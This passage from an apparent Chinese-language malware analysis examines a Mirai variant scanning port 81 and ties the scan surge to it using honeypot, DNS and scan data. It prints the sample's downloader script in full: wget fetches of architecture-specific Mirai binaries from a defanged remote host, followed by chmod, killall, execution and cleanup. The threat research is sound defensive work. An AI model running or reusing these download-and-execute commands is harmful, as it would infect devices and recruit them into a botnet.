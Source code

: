 下载脚本 wificam.sh 进一步下载了新的样本文件<br>

```
$ cat wificam.sh
```



```
wget hxxp://ntp.gtpnet.ir/mirai.arm -O /tmp/arm.bin
wget hxxp://ntp.gtpnet.ir/mirai.arm5n -O /tmp/arm5.bin
wget hxxp://ntp.gtpnet.ir/mirai.arm7 -O /tmp/arm7.bin
wget hxxp://ntp.gtpnet.ir/mirai.mips -O /tmp/mips.bin
wget hxxp://ntp.gtpnet.ir/mirai.mpsl -O /tmp/mpsl.bin
```

```
chmod +x /tmp/arm.bin
chmod +x /tmp/arm5.bin
chmod +x /tmp/arm7.bin
chmod +x /tmp/mips.bin
chmod +x /tmp/mpsl.bin
```



```
killall *.bin
killall arm
killall arm5
killall arm7
killall mips
killall mpsl
killall hal
```

```
/tmp/arm.bin
/tmp/arm5.bin
/tmp/arm7.bin
/tmp/mips.bin
/tmp/mpsl.bin
rm -rf /tmp/*.bin
```

**<br>**

**将本次扫描归因到这组样本**

我们认为本次针对 81 端口扫描归因到这组样本上。

从数据分析角度做出归因判定最大的障碍，是蜜罐系统采集到的有效数据只有100+ 份，对比全球网络扫描实时监测系统中每日独立扫描来源超过57,000，两者差距巨大，使用前者来说明后者，有数据覆盖率不足之嫌。

不过我们在仔细考察当前数据后，有以下发现：

1、这组样本，**采集自81端口**的扫描活动

2、罐上近期81 端口的扫描，绝大多数指向了这个样本。以4月19日为例，**124（/132=94%）的81端口**扫描是该样本发起的；

3、时间窗口方面，我们的三个不同数据源（大网扫描实时监测/C2域名DNS流量/蜜罐扫描流量）上监测均监测到了流量暴涨，且流量暴涨出现的时间均发生在 2016-04-16 03:00:00 附近。三个数据源的覆盖范围各不同，分别是**全球范围、中国大陆范围、若干蜜罐部署点范围，三个数据源之间的数据能够交叉映证**，是一个较强的证据。
